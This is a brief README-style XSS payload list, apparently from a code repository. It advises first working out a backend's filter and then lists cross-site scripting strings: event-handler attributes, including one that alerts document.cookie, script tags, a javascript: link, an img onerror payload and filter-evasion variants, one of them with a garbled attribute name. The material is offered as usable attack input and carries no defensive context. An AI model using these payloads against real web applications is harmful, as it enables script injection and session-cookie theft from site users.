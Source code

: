 # XSS  all script depend on backend.
## so first understand the backend filter and make xss.
\<a onmouseover="alert(document.cookie)"\>xss link\</a\>
<script>alert(1)</script>
<xss onafterscripteceute="alert(1)"><script>1</script>
 
<a href="javascript:alert(1) ">xss</a>
<img src=x onerror='prompt(8)'>
<script ~~~>alert(0%0)</script ~~~>
 
